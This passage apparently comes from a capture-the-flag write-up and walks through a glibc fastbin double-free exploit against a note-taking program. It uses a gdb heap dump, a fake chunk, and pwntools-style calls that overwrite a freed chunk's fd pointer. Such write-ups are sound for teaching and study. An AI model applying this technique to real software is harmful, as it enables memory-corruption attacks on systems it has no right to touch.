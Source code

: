 ```sh
0x555555758140:	0x0000000000000000	0x0000000000000021 -> Chunk 2 , from which we leaked heap
0x555555758150:	0x00005555557580f0	0x0000000000000070 
0x555555758160:	0x0000000000000000	0x0000000000000081
0x555555758170:	0x3232323232323232	0x3232323232323232
0x555555758180:	0x3232323232323232	0x3232323232323232
0x555555758190:	0x3232323232323232	0x3232323232323232
0x5555557581a0:	0x3232323232323232	0x3232323232323232
0x5555557581b0:	0x3232323232323232	0x3232323232323232
0x5555557581c0:	0x3232323232323232	0x3232323232323232
0x5555557581d0:	0x0000000000000000	0x0000000000000021 -> Fake chunk
gdb-peda$ 
0x5555557581e0:	0x0000000000000000	0x0000000000000021 -> Chunk 3 whose size we are interested in corrupting
0x5555557581f0:	0x0000555555758210	0x0000000000000070
0x555555758200:	0x0000000000000000	0x0000000000000081
0x555555758210:	0x0000000033333333	0x0000000000000000
0x555555758220:	0x0000000000000000	0x0000000000000000
0x555555758230:	0x0000000000000000	0x0000000000000000
0x555555758240:	0x0000000000000000	0x0000000000000000
0x555555758250:	0x0000000000000000	0x0000000000000000
0x555555758260:	0x0000000000000000	0x0000000000000000
0x555555758270:	0x0000000000000000	0x0000000000000000

```

After all this , our fastbin now just  **4->1** , call **double free** on chunk 1 to re-add it to fastbin.

So our fastbin should look like , **1->4->1** with which we can edit the fd of our chunk 1 and point it to our fake chunk and get our fake chunk after that.

```py
    free(1) #Double Free here
```

If we call **add** now ,it will take our chunk **1** as head which we dont want. so let's free chunk 3 before we call malloc.

```py
    free(3)
```

Now fastbin should be like **3->1->4->1**. Subsequent call to **Add Note** should take chunk **3** for header and chunk **1** for note.

We can overwrite the fd with our fake chunk's addr

```py
    fake_chunk = heap_base + 0x1d0
    add(0x10,p64(fake_chunk)) #5
```

Our fastbin looks like this now , **4->1->fake\_chunk**. Let's add one more chunk to fastbin as we need **Add note** to give our fake chunk for writing our data not the header part.

```py
    free(2)
```

